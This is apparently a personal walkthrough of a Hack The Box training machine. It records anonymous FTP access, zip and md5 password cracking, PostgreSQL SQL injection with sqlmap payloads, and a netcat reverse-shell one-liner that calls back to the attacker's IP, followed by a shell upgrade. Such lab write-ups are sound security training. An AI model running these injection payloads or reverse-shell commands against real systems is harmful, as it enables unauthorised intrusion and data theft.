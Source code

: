 -----
## IPS
victim=10.129.255.178


---
## Initial Scan 

- found that the machine is using ftp,http and ssh
```shell
nmap -sC -sV 10.129.255.178
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-04 14:36 EDT
Nmap scan report for 10.129.255.178
Host is up (0.035s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.17
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0ee58077534b00b9165b259569527a4 (RSA)
|   256 ac6e81188922d7a7417d814f1bb8b251 (ECDSA)
|_  256 425bc321dfefa20bc95e03421d69d028 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.13 seconds
```
 
---
## Foothold 

- this version of  FTP can use anonymous /no_password inorder to login. tried this and  manageed to login, found a backup.zip
```shell
ftp anonymous@10.129.255.178 
Connected to 10.129.255.178.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> 


```

- Used zip2john to crack the hash for the zipfile
```shell
 zip2john backup.zip >zip.hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                        
```

- I then used the main john the ripper script to pass in the hashes
```shell
john 
-wordlist=/usr/share/wordlists/rockyou.txt hashes
```

- Found the password  using john
```shell
┌──(root㉿kali)-[/home/kali/Desktop]
└─# john -wordlist=/usr/share/wordlists/rockyou.txt zip
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
No password hashes left to crack (see FAQ)
                                                        
┌──(root㉿kali)-[/home/kali/Desktop]
└─# john --show zip                                    
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left

```

- I then looked at the files in the backup and found the admin username and pasword that leads to a dashboard page
```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

- Cracked the passworrd using an online md5 code cracker 
- ![[Pasted image 20230404202802.png]]
On the site I tried to use sql inject using the 'OR '1 ='1 and this returned all the cars

- Used burp to get the req and put it into a file
![[Pasted image 20230404210302.png]]
- I then fed that into SQLMap in order to find the vunribilities
```shell
sqlmap -r ./new.req


[16:04:06] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)

[16:04:16] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[16:04:16] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'                                                   
[16:04:26] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable           
[16:04:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'                                            

sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:                             
---                                                                                                                 
Parameter: search (GET)                                                                                             
    Type: boolean-based blind                                                                                       
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)                                       
    Payload: search=a' AND (SELECT (CASE WHEN (1219=1219) THEN NULL ELSE CAST((CHR(110)||CHR(122)||CHR(115)||CHR(88)) AS NUMERIC) END)) IS NULL-- SazX                                                                                  
                                                                                                                    
    Type: error-based                                                                                               
    Title: PostgreSQL AND error-based - WHERE or HAVING clause                                                      
    Payload: search=a' AND 5041=CAST((CHR(113)||CHR(113)||CHR(118)||CHR(113)||CHR(113))||(SELECT (CASE WHEN (5041=5041) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(118)||CHR(107)||CHR(113)) AS NUMERIC)-- UOEe                
                                                                                                                    
    Type: stacked queries                                                                                           
    Title: PostgreSQL > 8.1 stacked queries (comment)                                                               
    Payload: search=a';SELECT PG_SLEEP(5)--                                                                         
                                                                                                                    
    Type: time-based blind                                                                                          
    Title: PostgreSQL > 8.1 AND time-based blind                                                                    
    Payload: search=a' AND 7914=(SELECT 7914 FROM PG_SLEEP(5))-- aUwp                                               
---                                                                                                                 
[16:04:26] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[16:04:27] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/vaccine.htb'

[*] ending @ 16:04:27 /2023-04-04/

```
- As we can get an OS shell I decided to add my own shell so I could create a reverse shell 
```shell
# on the victim machine
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.43 4444 >/tmp/f

#gives the following outpout on the kali machine
c -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.129.235.123] 33392
sh: 0: can't access tty; job control turned off
$        
```
- decided to upgrade the shell so we can do auto tab
```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
postgres@vaccine:/var/lib/postgresql/11/main$ 

```
----
## Tags
#Web
#Network
#VulnerabilityAssessment
#Databases
#Injection
#CustomApplications
#Protocols
#SourceCodeAnalysis
#Apache
#PostgreSQL
#FTP
#PHP
#Reconnaissance
#PasswordCracking
#SUDOExploitation
#SQLInjection
#RemoteCodeExecution
#ClearTextCredentials
#Anonymous/GuestAccess

----
## Resource

Payload for vi to access root- https://gtfobins.github.io/gtfobins/vi/#shell
